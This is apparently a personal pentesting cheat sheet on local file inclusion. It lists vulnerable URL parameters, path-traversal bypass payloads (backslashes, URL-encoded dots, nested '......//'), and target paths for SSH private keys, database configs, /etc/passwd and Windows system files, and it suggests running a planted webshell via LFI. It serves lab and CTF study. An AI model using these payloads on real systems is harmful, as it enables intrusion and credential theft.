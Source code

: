 
## LFI

https://book.hacktricks.xyz/pentesting-web/file-inclusion

Check for the following to test for LFI:
- index.php?view=
- index.php?page=

**Can be used to trigger webshell with alternative extension!**
- [[PwnLab]]

**Write permissions to the filesystem and webserver running as a different user?**
- Write webshell to filesystem and execute using LFI!
- [[Readys]]

**`../` fails:**

Try backslashes:
```bash
..\..\..\..\
```

URL encode the dots:
```bash
%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/
```

Backend might remove `../`: 
```bash
......//......//......//......//
```
>[!Example]
>[[RussianDolls]]

Read SSH keys:
```shell
/home/<user>/.ssh/id_rsa
/home/<user>/.ssh/id_ecdsa
/home/<user>/.ssh/id_ed25519
/home/<user>/.ssh/id_dsa
```
>[!info] 
>Check for usernames on a website or SMB share, ...**

Read db files: (e.g. `C:\xampp\htdocs\`)
```bash
db.php
conf.php
config.php
wp-config.php
```

Common files:
```bash
# windows
C:\Windows\System32\drivers\etc\hosts
C:\inetpub\wwwroot\web.config

--> Try ../ & ..\

# Linux
/etc/passwd
```

